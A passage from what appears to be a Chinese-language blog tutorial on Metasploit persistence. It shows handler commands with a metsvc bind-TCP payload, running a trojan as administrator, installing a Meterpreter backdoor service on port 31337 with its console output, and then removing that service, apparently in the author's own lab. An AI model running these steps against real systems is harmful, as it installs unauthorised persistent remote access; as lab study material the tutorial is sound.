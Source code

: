 如果Success，则直接使用handler，利用windows/metsvc_bind_tcp的payload：

```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/metsvc_bind_tcp 
payload => windows/metsvc_bind_tcp
msf exploit(handler) > set rhost 192.168.43.103
rhost => 192.168.43.103
msf exploit(handler) > set lport 31337
lport => 31337
msf exploit(handler) > exploit 

[*] Started bind handler
```

三个文件上传成功，失败是由于服务没有启动起来，难不成用户权限低？！

![QQ20180112-151049@2x.png](/assets/images/2018-01-12/2120612193.png)

右键木马shell.exe `以管理员权限运行`，重新拿到 Meterpreter 会话，重新执行 `run metsvc -A`；

```
meterpreter > run metsvc -A

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\Go0s\AppData\Local\Temp\WYPiyqkOsJZS...
[*]  >> Uploading metsrv.x86.dll...
[*]  >> Uploading metsvc-server.exe...
[*]  >> Uploading metsvc.exe...
[*] Starting the service...
	 * Installing service metsvc
 * Starting service
Service metsvc successfully installed.
```

服务成功开启，session -k 杀掉会话，利用handler下的windows/metsvc_bind_tcp，没多久重新上线；

不过官方都不推荐使用了，自然有缺陷；

移除服务；

```
meterpreter > run metsvc -r

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
[*] Removing the existing Meterpreter service
[*] Creating a temporary installation directory C:\Users\Go0s\AppData\Local\Temp\KRUyRiAody...
[*]  >> Uploading metsvc.exe...
[*] Stopping the service...
	 * Stopping service metsvc
 * Removing service
Service metsvc successfully removed.
```


[Go0s]: ~ 